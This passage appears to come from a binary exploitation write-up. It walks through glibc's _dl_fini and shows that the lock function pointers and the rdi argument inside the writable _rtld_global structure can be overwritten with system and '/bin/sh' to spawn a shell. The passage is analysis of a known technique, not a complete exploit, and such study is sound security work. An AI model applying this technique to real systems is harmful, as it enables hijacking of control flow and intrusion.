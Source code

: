 Now, that's lot of pointers and lot of calls. What makes things better, these calls are in writeable memory areas! Not only that! We have our rdi register pointing to a writeable memory area too!

Personally, I'd take this as an invitation to write whatever function you want to call with a free parameter too.

Now, we examine each of those calls in the source code. Starting off with `_dl_fini+113`:

```assembly
   0x7f055f11ddca <_dl_fini+106>   lea    rdi, [rip+0x1cb97]        # 0x7f055f13a968 <_rtld_global+2312>
 → 0x7f055f11ddd1 <_dl_fini+113>   call   QWORD PTR [rip+0x1d191]        # 0x7f055f13af68 <_rtld_global+3848>
```

We are using `_rtld_global` structure to load our pointers. The good part is that this structure is stored in a read/write memory. This call is 

```c
void
_dl_fini (void)
{
  ...

  for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
    {
      /* Protect against concurrent loads and unloads.  */
      __rtld_lock_lock_recursive (GL(dl_load_lock)); // <------------------ call QWORD PTR [rip+0x1d191]

```

So, we can simply go for overwriting the following memory addresses:
- _rtld_global+2312: Write "/bin/sh".
- _rtld_global+3848: Write `system` address.

Next:

```c
    __rtld_lock_lock_recursive (GL(dl_load_lock)); // <------------------ call QWORD PTR [rip+0x1d191]

    ...

    if (nloaded == 0)
      __rtld_lock_unlock_recursive (GL(dl_load_lock));
    else
	{
	  ...

	  for (l = GL(dl_ns)[ns]._ns_loaded, i = 0; l != NULL; l = l->l_next)
        ...
	    _dl_sort_maps (maps + (ns == LM_ID_BASE), nmaps - (ns == LM_ID_BASE),
	  		 NULL, true);

	    __rtld_lock_unlock_recursive (GL(dl_load_lock)); // <----------------------- call   QWORD PTR [rip+0x1d089]
```
